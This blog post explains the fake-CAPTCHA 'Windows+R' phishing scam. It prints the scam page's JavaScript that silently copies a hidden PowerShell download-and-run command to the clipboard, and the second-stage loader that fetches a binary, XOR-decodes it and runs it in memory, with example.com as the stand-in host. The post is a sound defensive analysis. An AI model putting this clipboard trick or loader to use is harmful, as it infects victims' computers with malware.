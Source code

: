 +++
title = "How Does the PowerShell Phishing Attack Work"
date = 2024-10-29T06:57:18+08:00
aliases = ["posts/how-does-the-windows-r-scam-work"]

[taxonomies]
tags = ["CAPTCHA", "PowerShell", "Security", "Windows"]
+++

You might have heard of the new scam about the [CAPTCHA] which asks you to use Windows + R to verify that you are human.
It gives you a popup and introduces a verification step with `Windows + R` and `Ctrl + V` then press `Enter`.
You probably already know how it works, but let's take a closer look at their code this time.

<!-- more -->

Usually we see these scams from websites like [GitHub], [Reddit], etc.
They are usually disguised as normal comments, such as the below:

> Maybe this solution will solve your problem click this link: ...

They provide you with a link a and when you open it, you will find that the page requires a CAPTCHA verification.
When you click this CAPTCHA button, a window will pop up on the page and ask you to use a set of key combinations to complete the verification.
Like this:

> Verification Steps:\
> 1 - Press Windows + R\
> 2 - Press Ctrl + V\
> 3 - Press Enter

If you follow the steps they provide, you will fall into their trap.

### What happened during this process?

Let's look directly at their code to see what is executed during the process.

First, let's use [cURL] to obtain the source code of the target URL. I'm using an [example domain] here in case you accidentally enter the trap.

```bash
curl https://example.com/captcha.html
```

Let's take a look at the key codes in the obtained content:

```js
function open_modal() {
  var copyText =
    "powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()";
  var textarea = document.createElement("textarea");
  textarea.value = copyText;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  setTimeout(() => {
    document.querySelector("#modal").classList.remove("hidden");
  }, 2000);
}
```

It creates a phishing modal and uses [execCommand("copy")] to secretly copy a command to your clipboard.
Browsers cannot automatically copy texts to the user's clipboard. This requires the user's interaction, so there is a CAPTCHA here.
Let's see what the command does:

```powershell
powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()
```

- `irm` is an alias of the [Invoke-RestMethod] command of [PowerShell]. This is used to send an HTTP or HTTPS request to a RESTful web service.
- [\[ScriptBlock\]::Create] creates a script block based on a script to be parsed when execution contenxt is provide.
- [-WindowStyle Hidden] sets the window style for the session to hidden.

Now let's move to the `https://example.com/scam` to see its content:

```bash
curl https://example.com/scam
```

```powershell
$url = "https://example.com/binary"
$webClient = New-Object System.Net.WebClient
$sell61 = $webClient.DownloadData($url)
$gossip123 = 0x09, 0x04, 0x05
$struggle6 = [byte[]]::new($sell61.Length)

for ($i = 0; $i -lt $sell61.Length; $i++) {
  $struggle6[$i] = $sell61[$i] -bxor $gossip123[$i % $gossip123.Length]
}

$afraid16 = [System.AppDomain]::CurrentDomain.Load($struggle6)

if ($afraid16.EntryPoint -ne $null) {
  $afraid16.EntryPoint.Invoke($null, @($null))
} else {
  Write-Host "glass glimpse glue gloom"
}
```

- [New-Object System.Net.WebClient] provides a common methods for sending data to and receiving data from a resource identified by a URI.
- `-bxor` is an [arithmetic operator] for bitwise XOR calculation. In this for-loop it should be a deobfuscation process.
- [\[Sytem.AppDomain\]::CurrentDomain.Load] loads an [Assembly] into the specific domain.

Then they can do whatever they want with your operating system through the implanted application.

### Why is the phishing method so effective?

Effective phishing methods are often easy to operate and can catch you without realizing it. It calls `misdirection`.
Just like CAPTCHA, the various verification methods now make people lose their vigilance, and some people lack basic computer knowledge and fall into this trap.
Here is video <span class="wrap">[The Art of Misdirection]</span> if you want to learn more about it.

On the other hand, due to the rise of smartphones and tablets, some people have become computer illiterate, especially the kids.
As the [Reddit post from r/Teachers] mentioned, more and more students don't know how to use computers.
People use their laptops only for schoolwork, and that's really about all you can do with it since the OS is so limited/sandboxed.

These factors combined make this phishing attack method such effective.

### Other similar attacks

Some merchants on the Internet will sell Steam games at extremely low prices.
They will give you a script and ask you to execute it.
This script will install pirated games on your computer and take the opportunity to implant malicious scripts.

### Links

- [Assembly]
- [CAPTCHA]
- [GitHub]
- [Invoke-RestMethod]
- [New-Object System.Net.WebClient]
- [PowerShell]
- [Reddit]
- [Reddit post from r/Teachers]
- [The Art of Misdirection]
- [arithmetic operator]
- [cURL]
- [example domain]
- [execCommand("Copy")]
- [-WindowStyle Hidden]
- [\[ScriptBlock\]::Create]
- [\[Sytem.AppDomain\]::CurrentDomain.Load]

[Assembly]: https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly
[CAPTCHA]: https://en.wikipedia.org/wiki/CAPTCHA
[GitHub]: https://github.com
[Invoke-RestMethod]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-restmethod
[New-Object System.Net.WebClient]: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Reddit]: https://www.reddit.com
[Reddit post from r/Teachers]: https://www.reddit.com/r/Teachers/comments/xuxbo9/why_dont_they_know_how_to_use_computers/
[The Art of Misdirection]: https://www.youtube.com/watch?v=GZGY0wPAnus
[arithmetic operator]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_arithmetic_operators
[cURL]: https://curl.se
[example domain]: https://www.iana.org/help/example-domains
[execCommand("Copy")]: https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand
[-WindowStyle Hidden]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pwsh#-windowstyle---w
[\[ScriptBlock\]::Create]: https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.scriptblock.create
[\[Sytem.AppDomain\]::CurrentDomain.Load]: https://learn.microsoft.com/en-us/dotnet/api/system.appdomain.load
